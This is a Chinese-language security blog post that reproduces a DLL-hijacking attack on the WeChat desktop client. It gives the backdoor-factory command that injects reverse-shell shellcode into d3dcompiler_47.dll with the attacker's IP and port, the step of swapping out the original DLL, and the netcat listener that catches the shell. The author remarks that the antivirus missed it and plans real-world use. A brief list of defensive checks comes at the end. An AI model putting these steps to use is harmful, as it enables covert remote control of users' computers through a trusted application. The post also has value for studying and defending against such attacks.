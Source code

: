 ```yaml
---
layout: post
title: "利用微信进行 DLL 劫持 && 反弹shell"
subtitle: "利用微信进行 DLL 劫持 && 反弹shell"
date: 2019-06-17
author: ppbibo
category: APT攻击
finished: true
---
```

[TOC]

## 0x1 前言

​		PS：看到的一篇标题为《看我如何利用微信反弹shell》的文章觉得挺有意思的，就去复现了一波，可能是微信版本的问题，并没有加载他文章中微信下的 dbghelp.dll，而是劫持了d3dcompiler_47.dll 文件，从而反弹shell 。



用户机器：

​		Windos 7 企业版

​		IP 192.168.1.101

​		微信版本：2.6.8.51



攻击机：

​		MacBook Pro 本地

​		IP 192.168.1.100		



##### 需要的工具：

​		 [劫持工具(backdoor-factory)](https://github.com/secretsquirrel/the-backdoor-factory)

​		 增强型任务管理器 (ProcessExplorer)

​		 微信 2.6.8.51

​		![version](/static/img/version.png)

## 0x2 查看被调用的dll文件

安装好微信打开 ProcessExplorer 查看微信调用的所有文件，如下：

![dll_new](/static/img/dll_new.png)

![dll_dir](/static/img/dll_dir.png)



## 0x3 制作劫持的dll文件

利用 backdoor-factory 制作反弹shell 的 dll 文件，向原有的dll 中插入一段shellcode

执行命令：

```bash
python backdoor.py -f d3dcompiler_47.dll -s reverse_shell_tcp_inline -P 6666 -H 192.168.1.100
```

![backdoor](/static/img/backdoor.png)

生成的文件在当前目录的backdoored 下面

![backdoored](/static/img/backdoored.png)



将 backdoored 下面的 d3dcompiler_47.dll 替换掉 WeChat 下面原有的 d3dcompiler_47.dll 文件

![qqqq](/static/img/qqqq.png)



这样微信在启动的时候就可以调用我们插入shellcode 的dll了

## 0x4 利用

攻击机使用NC 监听 6666 端口

```bash
nc -lvv 6666    
```

Windows 7 运行微信

![fantanshell_ok](/static/img/fantanshell_ok.png)

可以看到 微信在运行时多了两个cmd 进程，成功反弹shell到攻击机。



## 0x5 总结

​		这种dll 攻击感觉还是蛮好玩的，因为我在windows 7 下是有火绒杀软的，也就是免杀，接下来就是想怎么将这种攻击运用到实际攻击场景中。



##### 防御方法：

软件要通过官方渠道下载安装

定时检查机器是否存在可疑的dll文件

查看机器是否开启了可疑地端口

![netstat](/static/img/netstat.png)



参考：https://mp.weixin.qq.com/s/6h2eYnbVnjmeGACUjgx1nw

参考：https://www.freebuf.com/articles/78807.html